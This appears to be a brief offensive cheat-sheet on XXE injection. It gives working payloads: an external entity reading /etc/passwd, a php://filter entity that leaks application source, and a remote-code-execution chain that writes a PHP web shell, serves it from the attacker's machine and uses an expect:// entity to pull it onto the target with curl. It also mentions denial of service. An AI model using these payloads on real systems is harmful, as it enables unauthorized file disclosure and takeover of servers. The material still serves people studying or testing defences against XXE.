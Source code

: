 
### reading sensitive files
we can add them after the `<?xml>` tag at the start and before the `<root>`
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
and then in the injectable parameter we can just do 
```
&company;
```
other files 
`<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">`


#### RCE
```
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
`<!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">`


can also do a DOS